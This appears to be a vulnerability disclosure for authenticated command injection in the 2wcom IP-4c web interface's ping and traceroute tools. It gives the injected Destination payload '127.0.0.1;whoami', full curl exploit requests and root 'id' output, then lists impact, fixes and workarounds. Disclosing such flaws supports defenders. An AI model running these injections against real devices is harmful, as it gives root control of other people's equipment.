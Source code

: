 # 2wcom IP-4c - Remote Code Execution (RCE)

## Description
The 2wcom IP-4c web interface allows an authenticated attacker to perform Remote Code Execution via command injection in the ping , Traceroute tool configuration. This is due to improper input sanitization in the `Destination` field, which is executed directly in the system shell.

---

## Vendor Information

- **Vendor**: 2wcom  
- **Vendor Homepage**: https://www.2wcom.com/

## Product
- **Name**: 2wcom IP-4c
- **Firmware/Software Versions**:
  - **Bundle version**: 2.15.5
  - **File/Recovery system version**: 2.78 / 2.02
  - **App version**: 2.15.16
  - **Webinterface version**: 3.54
  - **FPGA version**: 1.12b64 / 0
  - **System controller version**: 1.07
  - **SNMP MIB version**: 4.4
  - **Kernel version**: 2wcom-01.25-rt60
  - **Codec versions**:
    - MP2 encoder: 1.5.0
    - MP2 decoder: 2.3.0
    - MP3 encoder: 5.12.1
    - MP3 decoder: 5.6.0
    - AAC encoder: 3.10.0
    - xHE-AAC encoder: 04.05.04
    - AAC decoder: 2.12.1
    - Opus: 1.5.2
    - E-aptX: 1.7
  - **HW revision XPS/IF**: 1.02 / 1.10

---

## Vulnerability Type
- Remote Code Execution (Authenticated)

## Attack Vector
- Network (Web Interface)


---


## Vulnerable Endpoints
- `/cwi/ajax_request/get_data.php?store=1`
- `/cwi/ajax_request/check_ping.php`
- `/cwi/ajax_request/check_trace.php`
- `/#tcpip` (via web interface’s Tools > Ping,Traceroute)

---

## Exploitation

### Exploit via Web Interface
1. Login as admin.
2. Go to: `/#tcpip`  
   → Tools  
   → Ping
   or
   → Traceroute

4. Set `Destination` to:
```bash
127.0.0.1;whoami
```
4. Set `Count` to `1` and start the ping.
5. The response will contain the output of the `whoami` command.

### Exploit via API (cURL Example)
1. Send the command injection using:
```bash
curl 'http://<target>/cwi/ajax_request/get_data.php?store=1' \
  -X POST \
  -H 'Cookie: PHPSESSID=<session>; other-cookies...' \
  --data-raw 'CSRFName=CSRFGuard_<id>&CSRFToken=<token>&set%3Acsl-interface-tools-ping-destination=127.0.0.1%3Bwhoami&set%3Acsl-interface-tools-ping-ifIndex=0&set%3Acsl-interface-tools-ping-ifIndexVlan=0&set%3Acsl-interface-tools-ping-count=1&set%3Acsl-interface-tools-ping-ttl=255&set%3Acsl-interface-tools-ping-dataSize=0'
```
2. Check the result with:
```bash 
curl 'http://<target>/cwi/ajax_request/check_ping.php' -X POST -H 'Cookie: PHPSESSID=<session>; other-cookies...' -H 'Content-Length: 0'
```
The response will contain command output:
```bash
uid=0(root) gid=0(root)
```
---
or 
1. Send the command injection using:
```bash
curl 'http://<target>/cwi/ajax_request/get_data.php?store=1' \
  -X POST \
  -H 'Cookie: PHPSESSID=<session>; other-cookies...' \
  --data-raw 'CSRFName=CSRFGuard_684381398&CSRFToken=b607cd9e764eaf8507ce6d88eb009429&set%3Acsl-interface-tools-traceroute-destination=127.0.0.1%3Bid&set%3Acsl-interface-tools-traceroute-ifIndex=0&set%3Acsl-interface-tools-traceroute-ifIndexVlan=0&set%3Acsl-interface-tools-traceroute-maxHops=1&set%3Acsl-interface-tools-traceroute-timeToWait=3'
```
2. Check the result with:
```bash 
curl 'http://<target>/cwi/ajax_request/check_trace.php' -X POST -H 'Cookie: PHPSESSID=<session>; other-cookies...' -H 'Content-Length: 0'
```
The response will contain command output:
```bash
uid=0(root) gid=0(root)
```
---

## Proof of Concept (PoC) for(RCE,Information Disclosure,Broken Access Control)
https://github.com/user-attachments/assets/42bc93b9-cc75-47bf-bae4-e33f6f87a3ce

---

## Impact 
 * Full system compromise as root 
 * Remote execution of arbitrary commands 
 * Potential to pivot within the network

---

## Suggested Fixes

  * Sanitize user inputs in ping tool configuration (block ;, &&, |, etc.)

  * Use safe API calls instead of direct shell execution

  * Implement strict role-based access controls

---

## Workarounds

  * Restrict access to /cwi/ajax_request/* endpoints using firewall rules or VPN

  * Monitor system logs for suspicious ping tool usage

